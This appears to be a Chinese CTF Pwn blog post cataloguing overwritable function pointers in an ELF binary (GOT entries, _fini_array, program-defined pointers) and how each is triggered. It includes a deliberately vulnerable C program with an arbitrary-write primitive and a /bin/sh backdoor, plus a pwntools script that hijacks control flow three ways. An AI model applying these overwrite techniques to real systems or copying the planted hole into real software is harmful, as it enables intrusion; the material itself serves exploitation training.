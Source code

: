```yaml
---
title: CTF Pwn 题中 目标本体ELF 可用 函数指针 （攻击位置） 整理
date: 2021-05-31 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 对CTF Pwn题中 常见的 属于目标程序本体中的 可被攻击者利用进行控制流劫持的 函数指针 以及 触发方式 进行了整理。

附件：[test](https://xuanxuanblingbling.github.io/assets/attachment/elf/test)

| 攻击变量        | 变量位置 |触发函数  | 条件|
| --------------- | --------- |--------- |--------- |
| GOT表表项     |  .got.plt 段 |相应函数    | GOT表可写 |
| _fini_array   | .fini_array 段| exit(), main函数return  | _fini_array 可写（ -z norelro）|
| 程序自己实现的函数指针  | 程序的数据段（bss、data）、栈、堆） | 无 |


```c
#include <stdio.h>
#include <stdlib.h>

int backdoor() { system("/bin/sh"); }
int hello()    { puts("hello\n"); }
int(* func_ptr)();

int main(){
    long long * p,data;
    char rw;
    setbuf(stdout,0);
    func_ptr = hello;
    while(1){
        printf("write or return or exit or hello?\n> ");scanf("%c",&rw);scanf("%*[^\n]%*c");
        if(rw == 'w'){
            printf("addr: ");scanf("%p",&p);
            printf("data: ");scanf("%llx",&data);
            *p = data; printf("OK\n");
        }
        else if(rw == 'r') break;
        else if(rw == 'e') exit(0);
        else if(rw == 'h') func_ptr();
        scanf("%*c");
    }
    return 0;
}
```

```bash
$ gcc test.c -z norelro -o test
```

```python
from pwn import *
myelf = ELF("./test")
io = process(myelf.path)

sla      = lambda delim,data   :  io.sendlineafter(delim,data)
write    = lambda addr,data    :  (sla("> ","w"),sla("addr:",hex(addr)),sla("data:",hex(data)))
hello    = lambda              :  (sla("> ","h"))
ret      = lambda              :  (sla("> ","r"))
exit     = lambda              :  (sla("> ","e"))

def attack_func_ptr():
    write(myelf.symbols['func_ptr'],myelf.symbols['backdoor'])
    hello() # trigger
    
def attack_got():
    write(myelf.got['puts'],myelf.symbols['backdoor']) # puts("OK"); auto trigger

def attack_fini_array(): 
    # gcc test.c -z norelro -o test
    # https://xuanxuanblingbling.github.io/ctf/pwn/2019/09/06/317/
    # https://www.coder.work/article/7496829
    # https://blog.csdn.net/easy_level1/article/details/115662443

    write(0x0600AF0,myelf.symbols['backdoor'])
    ret() # trigger 
    
    # exit also can trigger _fini_array: https://eqqie.cn/index.php/laji_note/1546/
    # exit() 

attack_func_ptr()
io.interactive()
```